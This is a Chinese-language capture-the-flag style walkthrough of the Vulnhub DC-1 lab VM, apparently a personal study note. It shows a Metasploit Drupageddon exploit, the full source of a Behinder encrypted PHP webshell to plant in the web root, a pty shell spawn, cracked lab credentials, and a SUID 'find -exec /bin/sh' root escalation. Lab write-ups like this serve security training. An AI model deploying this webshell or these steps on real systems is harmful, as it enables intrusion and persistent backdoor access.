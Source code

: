 ```yaml
---
title: Vulnhub靶场笔记-DC-1
date: 2023-11-8 18:53:00 +0800
img_path: /
categories: [肾透, Vulnhub靶场]
tags: [肾透, Vulnhub靶场]     # TAG names should always be lowercase
---
```


# DC-1靶机

## 一、环境配置

更改网络适配器为NAT模式

![image-20231108145209930](assets/image-20231108145209930.png)

## 二、主机探测

在物理机中查看VMnet8网卡

![image-20231108145349160](assets/image-20231108145349160.png)

使用`fscan`探测DC-1靶机ip地址为：192.168.157.133

![image-20231108150847086](assets/image-20231108150847086.png)

![image-20231108163711086](assets/image-20231108163711086.png)

## 三、漏洞利用

同时扫描出目标可能存在`drupal-cve-2014-3704-sqli`，使用msf查看是否有利用模块

```sh
msf6 > search cve-2014-3704
```

![image-20231108150945122](assets/image-20231108150945122.png)

使用改模块

```sh
msf6 > use 0
```

![image-20231108151043051](assets/image-20231108151043051.png)

查看漏洞利用信息

```sh
msf6 exploit(multi/http/drupal_drupageddon) > show options
```

![image-20231108151202050](assets/image-20231108151202050.png)

设置目标RHOSTS为`192.168.157.133`

```sh
set RHOST 192.168.157.133
```

![image-20231108151335868](assets/image-20231108151335868.png)

漏洞利用成功

```bash
msf6 exploit(multi/http/drupal_drupageddon) > run
```

![image-20231108151528150](assets/image-20231108151528150.png)

## 四、获取flag

### flag1

在当前目录下发现flag1

![image-20231108152143889](assets/image-20231108152143889.png)

当前shell不太友好使用python获得一个可交互的输入终端

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

或者写入冰蝎马连接操作

在`/vat/www/`目录下写个冰蝎马方便后续操作。

```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

### flag2

根据flag1的内容可知需要我们去寻找配置文件

在`/var/www/sites/default/`目录下的`settings.php`文件中找到了flag2以及数据库的用户名（dbuser）和密码（R0ck3t）等相关信息。

![image-20231108152653779](assets/image-20231108152653779.png)

### flag3

根据`MySQL`的用户名密码登录`MySQL`

![image-20231108152928110](assets/image-20231108152928110.png)

在`drupaldb`数据库中的`users`表中找到密码

![image-20231108153214575](assets/image-20231108153214575.png)

通过[cmd5](https://www.cmd5.com/)查看密文：`$S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR`的明文为：`53cr3t`

![image-20231108153354274](assets/image-20231108153354274.png)

登录网站：

![image-20231108153638661](assets/image-20231108153638661.png)

![image-20231108153719536](assets/image-20231108153719536.png)

![image-20231108153747419](assets/image-20231108153747419.png)

### flag4

根据`flag3`的内容可联想到`/etc/shadow`但是没有权限读取，读取`/etc/passwd`可看到`flag4`

```text
Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
```

```shell
cat etc/passwd
```

![image-20231108153855270](assets/image-20231108153855270.png)

![image-20231108154310768](assets/image-20231108154310768.png)

```txt
Can you use this same method to find or access the flag in root?
Probably. But perhaps it's not that easy.  Or maybe it is?
```

### flag5

根据flag4内容可知下一步需要提权。

以下任意一条命令都可以找到正在系统上运行的所有SUID可执行文件。

```sh
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```

可以看到find命令是以root权限执行的，它的参数如下：

```sh
find(选项)(参数)
-exec<执行指令>：假设find指令的回传值为True，就执行该指令
-perm<权限数值>：查找符合指定的权限数值的文件或目录

如果加了 -exec 参数，就会以root权限把find的字符串当作命令去执行。
```

```sh
find sites -exec /bin/sh \;
```

![image-20231108163559167](assets/image-20231108163559167.png)

```txt
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

